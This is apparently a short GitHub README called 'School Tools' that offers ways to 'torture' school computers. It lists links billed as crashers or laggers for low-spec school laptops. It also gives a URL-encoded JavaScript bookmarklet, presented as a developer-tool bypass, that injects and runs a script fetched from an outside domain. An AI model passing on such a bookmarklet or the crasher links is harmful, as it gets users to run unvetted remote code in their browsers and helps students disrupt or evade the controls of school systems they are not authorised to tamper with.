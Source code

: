 # School Tools

A repo full of tools to torture School!




## Documentation
> School Laptop Laggers (Must be low spec chrome OS & windows systems)
+ [Crasher](http://bongo-hates-python.cf/)
+ [Crasher/lagger](https://crash.drugs4children.org/)

> Developer Tool Bypasses
### Add this to a bookmark vvv
```JS 
javascript:(function()%7Bfunction%20callback()%7Bconsole.log(%22L%20sysadmin%22)%7Dvar%20s%3Ddocument.createElement(%22script%22)%3Bs.src%3D%22https%3A%2F%2Fdrugs4children.org%2FGetSource.js%22%3Bif(s.addEventListener)%7Bs.addEventListener(%22load%22%2Ccallback%2Cfalse)%7Delse%20if(s.readyState)%7Bs.onreadystatechange%3Dcallback%7Ddocument.body.appendChild(s)%3B%7D)()
```

+ [Soon](https://github.com/StiizzyCat/SchoolTools)
